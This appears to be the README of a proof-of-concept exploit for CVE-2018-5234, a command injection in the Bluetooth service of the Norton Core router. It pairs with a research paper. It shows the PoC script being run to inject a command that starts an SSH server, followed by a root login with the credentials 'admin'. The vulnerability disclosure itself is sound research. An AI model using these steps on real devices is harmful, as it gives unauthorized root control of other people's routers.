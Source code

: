 # PoC command injection in BLE service of Norton Core Secure WiFi Router (CVE-2018-5234)

For more information read
[paper](https://embedi.com/blog/whos-watching-the-watchers-vol-ii-norton-core-secure-wifi-router).

To demonstrate the exploitation, we will use:
- OS GNU/Linux;
- Bluetooth dongle adapter;
- BlueZ utility (for testing Bluetooth connection).

In order to use the script, we will need to set all dependencies in a advance:

```shell
$ pip install -r ./requirements.txt
```

With the help of `BlueZ` utilities, we should ensure Bluetooth is enabled and
functions properly.

1. Restart the router to provide access to the engineering page.
2. Start the PoC on behalf of the root user (required for operating with
   Bluetooth) with the command on executing as an argument:

    ```shell
    $ ./ble_norton_core.py "/etc/init.d/dropbear start"
    ```

    After the script is successfully executed, we get access to the device via
    the SSH connection. We put `root` as a user and `admin` as password:

    ```shell
    $ ssh root@norton.core
    ```
